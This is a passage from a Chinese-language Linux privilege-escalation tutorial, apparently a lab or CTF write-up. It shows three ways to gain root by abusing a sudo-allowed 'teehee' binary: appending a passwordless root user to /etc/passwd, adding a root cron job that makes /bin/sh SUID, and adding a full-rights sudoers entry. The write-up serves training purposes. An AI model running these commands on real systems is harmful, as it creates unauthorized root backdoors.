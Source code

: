```
echo “hacker::0:0:::/bin/bash” | sudo teehee -a /etc/passwd
```

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR39nqPqTZUdeFh0uiblOwBlaibIe7tvcG98TqOtwvhDAI6lsOBOXX1icwZNTPSbddhFBh2owSTnTHD62A/640?wx_fmt=jpeg)

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR39nqPqTZUdeFh0uiblOwBlaibQG2Jk9pKia6DpmSSgIWHT4kK1tFZAjkkAIKkoh4YgCtznfZXpHGej2g/640?wx_fmt=jpeg)

### 2、修改 / etc/crontab 计划任务文件

可以在 / etc/crontab 下写入定时计划，提升到 root 权限。

crontab 介绍

Linux crontab 是用来定期执行程序的命令。当安装完成操作系统之后，默认便会启动此任务调度命令。

```
f1 f2 f3 f4 f5 program
其中 f1 是表示分钟，f2 表示小时，f3 表示一个月份中的第几日，f4 表示月份，f5 表示一个星期中的第几天。program 表示要执行的程序。
当 f1 为 * 时表示每分钟都要执行 program，f2 为 * 时表示每小时都要执行程序，其馀类推；
当 f1 为 a-b 时表示从第 a 分钟到第 b 分钟这段时间内要执行，f2 为 a-b 时表示从第 a 到第 b 小时都要执行，其馀类推；
当 f1 为 */n 时表示每 n 分钟个时间间隔执行一次，f2 为 */n 表示每 n 小时个时间间隔执行一次，其馀类推；
当 f1 为 a, b, c,... 时表示第 a, b, c,... 分钟要执行，f2 为 a, b, c,... 时表示第 a, b, c...个小时要执行，其馀类推

*    *    *    *    *
-    -    -    -    -
|    |    |    |    |
|    |    |    |    +----- 星期中星期几 (0 - 7) (星期天 为0)
|    |    |    +---------- 月份 (1 - 12) 
|    |    +--------------- 一个月中的第几天 (1 - 31)
|    +-------------------- 小时 (0 - 23)
+------------------------- 分钟 (0 - 59)
```

所以我们可以追加内容为：echo “ * root chmod 4777 /bin/sh” | sudo teehee -a /etc/crontab，表示在 / etc/crontab 下写入定时计划，一分钟后由 root 用户给 /bin/bash 命令加权限（chmod 4777 即开启 suid 和 rwx 权限）：

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR39nqPqTZUdeFh0uiblOwBlaibPHQ2eNo3Nsp4bVBjHbJLOJibtfc4MQwibaDYu2kib0RyxPicrQEMWBfawg/640?wx_fmt=jpeg)

### 3、修改 / etc/sudoers 文件

先看看本地 sudoers 文件的语法。cat sudoers;

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR39nqPqTZUdeFh0uiblOwBlaib2TS7ELQGGZTc4vXwBTDAibAUQS3D0ia0mx0DBv2x2xAKZicVfxtTKKGTA/640?wx_fmt=jpeg)

仿造写一个 charles ALL=(ALL:ALL) ALL

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR39nqPqTZUdeFh0uiblOwBlaibJY3rhBgcDNjyWmX86PbtGdFic0WClibAPZwibiceD27Uret6WxWqsdjJ0A/640?wx_fmt=jpeg)

可以看到现在 charles 可以以 root 用户身份运行所有命令

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR39nqPqTZUdeFh0uiblOwBlaibKVheMgkyrR4411vtcG4W7CguUp9Wm3Pnkr6ndmscY1bV54XoxiaOAicA/640?wx_fmt=jpeg)

总结
--
